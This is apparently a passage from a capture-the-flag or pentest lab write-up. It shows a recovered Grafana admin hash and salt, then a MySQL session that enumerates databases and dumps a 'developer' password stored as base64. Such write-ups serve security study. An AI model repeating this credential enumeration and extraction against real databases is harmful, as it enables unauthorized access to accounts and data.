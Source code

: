 Login | Password | Salt | rands 
--- | --- | --- | ---
admin | dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069 | 0X27trve2u | f960YdtaMF


## TCP 3306 - Mysql

Refer - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql

Mysql CLI

```bash
MySQL [grafana]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.194 sec)

MySQL [grafana]> 
```

```bash
MySQL [grafana]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.193 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.192 sec)

MySQL [whackywidget]> 
```
